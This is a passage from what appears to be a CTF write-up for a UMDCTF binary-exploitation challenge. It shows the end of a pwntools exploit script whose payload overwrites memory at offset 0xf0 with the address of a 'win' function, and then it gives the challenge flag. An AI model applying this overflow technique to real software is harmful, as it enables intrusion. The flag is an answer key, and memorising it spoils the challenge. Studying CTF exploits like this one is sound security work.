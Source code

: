 ```py
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.sendlineafter(b"What is the name of your act?\n", b"a")
io.sendlineafter(b"How long do you want the show description to be?\n", str(0x80).encode())
io.sendlineafter(b"Describe the show for us:\n", flat({0xf0: exe.sym['win']}))
io.sendlineafter(b"Action: ", b"1")

io.interactive()
```

## Flag

```
UMDCTF{b1ns_cAN_B3_5up3r_f4st}
```
